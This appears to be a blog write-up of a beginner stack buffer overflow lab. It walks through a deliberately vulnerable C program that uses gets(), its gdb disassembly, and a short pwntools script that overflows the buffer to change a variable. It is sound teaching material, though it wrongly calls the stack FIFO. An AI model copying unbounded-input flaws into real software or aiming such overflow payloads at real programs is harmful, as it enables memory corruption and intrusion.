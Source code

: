 # Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- We have 2 variables *modified* and *buffer* which are created in the stack.
- *modified* is an integer that the program checks to see if it's been altered unexpectedly. The `volatile` keyword is used to tell the compiler not to optimize this variable, as its value could be changed unexpectedly or arbitrarily.
- The *gets()* function is used -- input is loaded into buffer using *gets()*
- *gets()* is dangerous as it can be easily abused for buffer over flow.
- This is because *gets()* doesn't have a check for the number of inputs given in the stack, and it keep receiving input until the stack crashes -- which of course leads to stack buffer overflow.
- Knowing this we can overwrite the memory region where the *modified* variable is stored.

# Investigating further

**Running `man gets` 
![Pasted image 20240709223941](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/b4c32f48-9808-494e-a0f6-5026a24d1868)
![Pasted image 20240709224151](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/eb6cf375-7356-4120-b574-c33e39455bce)



# The stack

#### EIP (Instruction Pointer)

The EIP register holds the memory address of the next instruction to be executed. It is not stored on the stack itself, but rather it is an architectural register in the CPU. **The EIP is used to keep track of the currently executing code.**

#### ESP (Stack Pointer)

The ESP register points to the top of the stack, which is the most recently pushed value. It is not directly stored on the stack, but it holds the memory address of the top of the stack. **ESP is used to access and manipulate data on the stack.**

#### EBP (Base Pointer)

The EBP register is used as a reference point for accessing local variables and function arguments on the stack. It is typically set to the value of ESP at the beginning of a function, providing a stable base address for referencing stack data. **EBP is pushed onto the stack when a function is called, and it is popped off when the function returns.**


- First the *modified* variable gets created, i.e. it gets pushed onto the stack(FIFO).
- Then the *buffer* which is an array of 64 characters gets created.
- *modified* variable gets pushed down to the stack.


# Disassembly 
We are going to disassemble our binary using *gdb/gef*

![Pasted image 20240709233340](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/f9462062-6acd-4f24-84e6-173dea56ff70)


# Disassembling the main function
```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0000000000001149 <+0>:	push   rbp
   0x000000000000114a <+1>:	mov    rbp,rsp
   0x000000000000114d <+4>:	sub    rsp,0x60
   0x0000000000001151 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000001154 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000001158 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000000115f <+22>:	lea    rax,[rbp-0x50]
   0x0000000000001163 <+26>:	mov    rdi,rax
   0x0000000000001166 <+29>:	mov    eax,0x0
   0x000000000000116b <+34>:	call   0x1040 <gets@plt>
   0x0000000000001170 <+39>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001173 <+42>:	test   eax,eax
   0x0000000000001175 <+44>:	je     0x1188 <main+63>
   0x0000000000001177 <+46>:	lea    rax,[rip+0xe8a]        # 0x2008
   0x000000000000117e <+53>:	mov    rdi,rax
   0x0000000000001181 <+56>:	call   0x1030 <puts@plt>
   0x0000000000001186 <+61>:	jmp    0x1197 <main+78>
   0x0000000000001188 <+63>:	lea    rax,[rip+0xea2]        # 0x2031
   0x000000000000118f <+70>:	mov    rdi,rax
   0x0000000000001192 <+73>:	call   0x1030 <puts@plt>
   0x0000000000001197 <+78>:	mov    eax,0x0
   0x000000000000119c <+83>:	leave
   0x000000000000119d <+84>:	ret
End of assembler dump.
gef➤  

```

The `modified` variable and the buffer are separate variables in the program. However, due to the way memory is organized in the stack, these variables are located next to each other. When the `gets` function is called to read input into the buffer, and if the input is longer than the size of the buffer, it will overflow into the memory space of the `modified` variable, effectively changing its value.

- We are going to set **2** breakpoints before and after the **gets()** function to see what registers have changed.
```
gef➤  break *0x000000000000116b
Breakpoint 1 at 0x116b
gef➤  break *0x0000000000001170
Breakpoint 2 at 0x1170
```
- The first breakpoint is set at the **gets()** function.
- The second breakpoints is set at the instruction that loads the value of the **modified** variable.
- Doing the above, we will get an idea on where the data on the stack is stored.


# Using pwntools to exploit the binary

```
from pwn import *

# Establish a process to the binary
p = process('/opt/exploitdev/stacked')

# Create the payload
# The 'A'*80 will overflow the buffer and modify the 'modified' variable
payload = ('A'*80).encode()

# Send the payload
p.sendline(payload)

# Receive the output
output = p.recvline()

# Print the output
print(output)

# Close the process
p.close()

```

![Pasted image 20240710130427](https://github.com/husseinmuhaisen/husseinmuhaisen.github.io/assets/59100756/00c3b37c-5596-4efb-9c75-391ac472270f)


Thank you.
